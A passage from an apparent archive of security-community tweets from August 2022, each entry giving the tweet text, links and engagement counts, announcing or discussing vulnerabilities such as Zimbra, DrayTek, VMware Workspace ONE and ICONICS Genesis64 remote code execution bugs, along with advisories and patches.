And the root cause analysis of the bug, CVE-2021-0920, is here: https://t.co/F1BbAenvw6
</blockquote>

* https://googleprojectzero.github.io/0days-in-the-wild//0day-RCAs/2021/CVE-2021-0920.html

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>8</code></td>
<td>Favorites: <code>49</code></td>
</tr></table>

---

# Volexity
**https://twitter.com/Volexity/status/1557449272379031553 _at 2022-08-10, 19:30:17_**
<blockquote>
.@Volexity uncovers mass exploitation of #Zimbra Collaboration Servers (ZCS) via CVE-2022-27925 using authentication bypass. Over 1000 ZCS instances compromised worldwide. Read more about the exploit: https://t.co/NDtfZ5eFUZ

#threatintel #dfir
</blockquote>

* https://www.volexity.com/blog/2022/08/10/mass-exploitation-of-unauthenticated-zimbra-rce-cve-2022-27925/

<table><tr>
<td>Quotes: <code>8</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>68</code></td>
<td>Favorites: <code>116</code></td>
</tr></table>

---

# wdormann
**https://twitter.com/wdormann/status/1557348886615826433 _at 2022-08-10, 12:51:23_**
<blockquote>
By now Microsoft has fixed both Follina CVE-2022-30190 and Dogwalk CVE-2022-34713 programming flaws.
But please don't forget that MSDT .diagcab files BY DESIGN will run code with a single click. With a UAC bypass if logged in as an admin.
This still works.
https://t.co/MfojxHA5s3 https://t.co/D6WrvSSBU2
</blockquote>

* https://github.com/chromium/chromium/commit/cd290e7cbed7b2f95e4c2dc805e9d175f9161fc4

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>6</code></td>
<td>Replies: <code>6</code></td>
<td>Retweets: <code>114</code></td>
<td>Favorites: <code>304</code></td>
</tr></table>

---

# TheHackersNews
**https://twitter.com/TheHackersNews/status/1557248912200990721 _at 2022-08-10, 06:14:07_**
<blockquote>
Patch Tuesday, August 2022 — #Microsoft releases security updates to address 121 newly reported vulnerabilities, including a zero-day (CVE-2022-34713) bug that the company says is being actively exploited.

Read details: https://t.co/iWsjLfFMOi

#hacking #cybersecurity #infosec
</blockquote>

* https://thehackernews.com/2022/08/microsoft-issues-patches-for-121-flaws.html

<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>41</code></td>
<td>Favorites: <code>60</code></td>
</tr></table>

---

# _mattata
**https://twitter.com/_mattata/status/1556657740797427713 _at 2022-08-08, 15:05:01_**
<blockquote>
Let's talk about CVE-2022-31656 and CVE-2022-31659, auth bypass leading to remote code execution in VMWare products such as Workspace ONE. There's no public POC yet and nothing strange spotted @GreyNoiseIO, but this doesn't mean defenders don't have many hints how it works 1/🧵
</blockquote>

<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>4</code></td>
<td>Retweets: <code>32</code></td>
<td>Favorites: <code>75</code></td>
</tr></table>

---

# Junior_Baines
**https://twitter.com/Junior_Baines/status/1555245865194987521 _at 2022-08-04, 17:34:43_**
<blockquote>
I went hunting for CVE-2020-2905, an unauth RCE vulnerability affecting QNAP devices. The vulnerability is on the CISA KEV list but there are no real public details. I didn't find CVE-2020-2905, but I did find another (silently patched) unauth RCE: https://t.co/8AYuTN7iot
</blockquote>

* https://www.rapid7.com/blog/post/2022/08/04/qnap-poisoned-xml-command-injection-silently-patched/

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>12</code></td>
<td>Favorites: <code>38</code></td>
</tr></table>

---

# 0vercl0k
**https://twitter.com/0vercl0k/status/1555223654690000896 _at 2022-08-04, 16:06:28_**
<blockquote>
Paracosme (CVE-2022-33318) is the zero-click remote code execution memory corruption exploit that I wrote to compromise ICONICS Genesis64 on stage at Pwn2Own2022 Miami 🐛🐜🪲

I hope to blog about it soon but in the meantime, go apply the patch 🔥🔥!

https://t.co/bGsJ4ajSi5 https://t.co/ii9VECQYMo
</blockquote>

* https://www.zerodayinitiative.com/advisories/ZDI-22-1041/

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>22</code></td>
<td>Favorites: <code>103</code></td>
</tr></table>

---

# TheHackersNews
**https://twitter.com/TheHackersNews/status/1555180034175905793 _at 2022-08-04, 13:13:08_**
<blockquote>
Researchers discovered a critical unauthenticated RCE #vulnerability (CVE-2022-32548) affecting 29 different router models from #DrayTek that can be exploited to gain full access over targeted networks.

Read details: https://t.co/hSXwcGc6pP

#hacking #cybersecurity #infosec
</blockquote>

* https://thehackernews.com/2022/08/critical-rce-bug-could-let-hackers.html

<table><tr>
<td>Quotes: <code>8</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>56</code></td>
<td>Favorites: <code>112</code></td>
</tr></table>

---

# campuscodi
**https://twitter.com/campuscodi/status/1555071282605133825 _at 2022-08-04, 06:01:00_**
<blockquote>
Write-up on CVE-2022-32548, a one-click unauthenticated RCE that can allow attackers to hijack DrayTek routers: https://t.co/BkaBQuqJhZ

Patches are here: https://t.co/uDg8qAjfzI https://t.co/iOa661UbCm
</blockquote>

* https://www.trellix.com/en-us/about/newsroom/stories/threat-labs/rce-in-dratyek-routers.html
* https://www.draytek.com/support/latest-firmwares/

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>6</code></td>
<td>Retweets: <code>87</code></td>
<td>Favorites: <code>185</code></td>
</tr></table>

---

# TheZDIBugs
**https://twitter.com/TheZDIBugs/status/1554924530363146240 _at 2022-08-03, 20:17:51_**
<blockquote>
[ZDI-22-1041|CVE-2022-33318] (Pwn2Own) ICONICS GENESIS64 genbroker64 Use-After-Free Remote Code Execution Vulnerability (CVSS 9.8; Credit: @0vercl0k) https://t.co/mmthdeKIhr
</blockquote>

* https://www.zerodayinitiative.com/advisories/ZDI-22-1041/

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>15</code></td>
<td>Favorites: <code>36</code></td>
</tr></table>

---

# Vulnmachines
**https://twitter.com/Vulnmachines/status/1554752140286996485 _at 2022-08-03, 08:52:50_**
<blockquote>
#Moodle remote code execution | CVE-2020-14321

[PoC]: https://t.co/nPU5R2uyg7

Start your #Pentesting journey with us.
https://t.co/TKYo5q9VOB

#infosec #cybersecurity #bugbounty
</blockquote>

* https://youtu.be/3OW8zV-yVYw
* https://www.vulnmachines.com

<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>25</code></td>
<td>Favorites: <code>95</code></td>
</tr></table>

---

# _mattata
**https://twitter.com/_mattata/status/1554532825629589510 _at 2022-08-02, 18:21:22_**
<blockquote>
GreyNoise is now tracking CVE-2022-35405, Zoho Password Manager Pro XML-RPC RCE. No activity as of yet. Tag and Blocklist available to all @GreyNoiseIO users!

https://t.co/AcQZv3859u https://t.co/PEDgiV58hy
</blockquote>

* https://viz.greynoise.io/tag/zoho-password-manager-pro-xml-rpc-rce-attempt?days=3

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>10</code></td>
<td>Favorites: <code>46</code></td>
</tr></table>

---

# VietPetrus
**https://twitter.com/VietPetrus/status/1554485970514608128 _at 2022-08-02, 15:15:10_**
<blockquote>
I have found vulnerabilities CVE-2022-31656 and CVE-2022-31659 leading to unauthenticated remote code execution affecting many #VMware products, such as Workspace ONE. Technical writeup and POC soon to follow.

Recommend to patch or mitigate immediately.
https://t.co/DnknXFieY3 https://t.co/Uu1LQmb0fQ
</blockquote>

* https://www.vmware.com/security/advisories/VMSA-2022-0021.html

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>19</code></td>
<td>Replies: <code>13</code></td>
<td>Retweets: <code>230</code></td>
<td>Favorites: <code>716</code></td>
</tr></table>

---

# vcslab
**https://twitter.com/vcslab/status/1554339786315350016 _at 2022-08-02, 05:34:17_**
<blockquote>
CVE-2021-34982 Pre-Auth RCE on Netgear R6700v3 by our IOT teammate @VngQucHuy8 🔥🔥https://t.co/FUhPlpEguN
</blockquote>

* https://blog.viettelcybersecurity.com/netgear-r6700v3-1day-analysis-cve-2021-34982-buffer-overflow-rce-vulnerabiliy-2/

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>36</code></td>
<td>Favorites: <code>126</code></td>
</tr></table>

---

# K3vinLuSec
**https://twitter.com/K3vinLuSec/status/1554132965055074306 _at 2022-08-01, 15:52:27_**
<blockquote>
A new blog “Analysis of Adobe Acrobat Reader Javascript Doc.print() Use-After-Free Vulnerability (CVE-2022-34233)” https://t.co/Wlndg6iZ2I
</blockquote>

* https://www.zscaler.com/blogs/security-research/analysis-adobe-acrobat-reader-javascript-docprint-use-after-free

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>36</code></td>
<td>Favorites: <code>111</code></td>
</tr></table>

---

